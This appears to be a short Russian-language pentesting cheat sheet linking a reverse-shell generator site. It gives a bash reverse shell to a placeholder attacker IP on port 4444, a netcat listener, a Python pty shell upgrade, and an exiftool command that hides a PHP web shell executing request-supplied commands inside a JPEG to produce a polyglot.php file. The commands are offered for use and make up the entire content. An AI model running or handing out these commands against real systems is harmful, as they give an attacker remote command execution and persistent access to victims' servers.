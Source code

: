 ### Reverse Shell Generator
[revshells.com](https://www.revshells.com)

Проброс шелла:

```
bash -c "bash -i >& /dev/tcp/{ATTACKER_IP}/4444 0>&1"
```

Слушать:

```
sudo nc -lvnp 4444
```

Переход на удобный шелл:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Полиглотный шелл:

```
exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" <jpeg-file-name>.jpeg -o polyglot.php
```